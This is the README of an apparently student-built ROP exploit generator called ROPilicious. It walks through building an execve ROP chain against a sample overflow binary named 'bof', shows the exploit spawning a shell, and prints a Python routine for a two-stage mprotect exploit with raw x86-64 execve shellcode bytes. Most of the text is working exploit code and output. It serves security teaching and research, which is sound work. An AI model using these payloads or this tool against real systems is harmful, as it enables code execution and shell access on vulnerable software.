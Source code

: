# ROPilicious

This repository has the sourcecode of our ROP tool. 

## How to use it?

Usage:
```
    $ python3 main.py --file FILE --length LEN --exploitType EXPLOITTYPE
```

## 1. How to generate an exploit using ROPilicious?

These are the exploits currently available: 

1. **execve**: execve() ROP Shellcode - will spawn a shell on success
2. **mprotect**: mprotect() ROP Shellcode + execve() traditional Shellcode - will spawn a shell on success

Once you run our tool with correct arguments, a **python script** with the required payload will be generated. 

Let us run it for the executable **bof** present in the repository. 

```
    $ python3 main.py --file bof --length 5 --exploitType execve
    Searching all executable sections....
    Searching the .init section
    2
    Found 2 gadgets

    Searching the .plt section
    2
    Found 2 gadgets

    Searching the .text section
    2
    Found 6387 gadgets

    Searching the __libc_freeres_fn section
    2
    Found 6449 gadgets

    Searching the __libc_thread_freeres_fn section
    2
    Found 6454 gadgets

    Searching the .fini section
    2
    Found 6456 gadgets



    -->Chaining to get a shell using execve system call
    -->Written the complete payload in execveROPChain.py
    -->Chaining successful!
```    

The python script generated is **execveROPChain.py**. 

1. Use **gdb** or any tool you are comfortable with and find out the amount of **junk** to put before the actual payload. In this example, the amount of junk is 120 bytes. Open up **execveROPChain.py** and do the following: 

```
    # Enter the amount of junk required
    payload = ''
```

Change it to this: 
```
    # Enter the amount of junk required
    payload = 'a' * 120
```

Now, you are set. 

2. Save and close the script. 

3. Run the script. It will dump the payload to be injected into **bof** in a file **payload.txt**. 

```
    $ python2 execveROPChain.py
    $ ls -l payload.txt
    -rw-rw-r-- 1 adwi adwi 696 Mar 21 19:01 payload.txt
```

4. Run the executable and inject the payload. 

```
    $ cat payload.txt - | ./bof
    Before function call

    whoami
    adwi

    who
    adwi     tty7         Mar 18 13:09 (:0)
    uname 
    Linux
    ^C
```

And that is how its done!

## 2. Can you write your own exploits using ROPilicious?

Yes. Absolutely. The tool provides routines which generates payload to load a value into a register, to write stuff(say shellcode) you want into particular memory location etc., 

Consider the script **mprotectChain.py** - which is a proof-of-concept of the famous 2-stage exploit. 

Objective: To be able to execute **traditional shellcode** on a system guarded with **W^X**. 

This is how it's done. The exploit is divided into 2 stages. 

1. Use ROP Payload and do the 2 tasks: 
    
    * To **write** the traditional shellcode you want to execute. 
    * To execute ```mprotect()``` on ```.data section``` and make it an executable section. 

2. Jump to ```.data section``` and execute traditional shellcode(assuming mprotect was a success). 

All this can be done in around 50 lines of python code. The following is the **crux** of the exploit. You can open up **mprotectChain.py** for complete working exploit. 

The following routine gives a python script **mprotectROPChain.py** which you can run in a way similar to above shown example. 

```python

def case2(GadgetList, data_section_addr) : 

    # Open the file where the payload is written in the form of a python script
    fd = open("mprotectROPChain.py", "w")
    chain.writeHeader(fd)
    
    # Step-2: Writing traditional shellcode into .data section
    shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
    
    # Write shellcode into .data section
    chain.WriteStuffIntoMemory(shellcode, data_section_addr, fd)
    
    # System call number of mprotect = 10
    # Step-1: rax <- 10
    chain.LoadConstIntoReg(GadgetList, "rax", 10, fd)

	# Step-3: rdi <- Starting address of writable section. 
   
    # 0x6c9000 is where Writable section starts.
    chain.LoadConstIntoReg(GadgetList, "rdi", 0x6c9000, fd)
	
    # Step-4: rsi <- 100
    # Make the first 4096 * 3 bytes of Writable section executable.
    # .data section comes at an address 0x6ca980
    chain.LoadConstIntoReg(GadgetList, "rsi", 4096 * 3, fd)

    # Step-5: rdx <- 7
    # 7 - PROT_READ | PROT_WRITE | PROT_EXEC
    # The permissions to execute!
    chain.LoadConstIntoReg(GadgetList, "rdx", 7, fd)

    # At this point, .data section is executable

    # Get "syscall; ret"
    syscallList = categorize.checkIfSyscallPresent(GadgetList)
    syscallGadget = syscallList[0]
    
    syscallDict = syscallGadget[0]
    syscallAddress = syscallDict['address']
    
    fd.write("payload += struct.pack('<Q', ")
    fd.write(hex(int(syscallAddress)))
    fd.write(")")
    fd.write("\t\t# Address of syscall")
    fd.write("\n\t")

    # The "ret" of "syscall; ret" should jump to .data section
    # That is why, put .data section's address onto stack@
    fd.write("payload += struct.pack('<Q', ")
    fd.write(hex(data_section_addr))
    fd.write(")")
    fd.write("\t\t# Address of .data section where shellcode is present")
    fd.write("\n\t")
    
    chain.writeFooter(fd)
    print("-->Written the complete payload in mprotectROPChain.py")
    print("-->Chaining successful!")
```

## 3. How good is this tool?

These are the features of our tool. 

1. Completely automated ROP payload generation. 

2. Scriptable to certain extent. You can build exploits similar to that mentioned in (2) very easily. 

    * (2) demonstrated a 2-stage exploit - ROP + traditional. You can build such exploits with ease. You can combine different exploit methods with ease. 

3. Our tool does not make any assumptions on the vulnerable executable. But we expect the vulnerable executable to be big enough so that our tool can find the required gadgets. 

4. As ```system calls``` are heavy lifting functions, our tool focusses on chaining gadgets to execute system calls. Because with system calls, any type of exploit can be crafted.


## 4. How can we improve the tool?

The following are the short-comings of the tool. 

1. ROPilicious uses gadgets of the type ```Inst; ret```, classifies them based on what **Inst** instruction does and then chaining particular gadgets to get the exploit ready. It is now using very limited number of gadgets. It would be great if we are able to use complicated gadgets so that we can build better exploits and the same exploits with lesser number of gadgets - which is quite important. 

2. The tool is using Simple Syntactic Searching. We can make the tool better by making Syntactic Search more rigorous and / or Semantically searching for gadgets using Solvers, Symbolic Execution. 
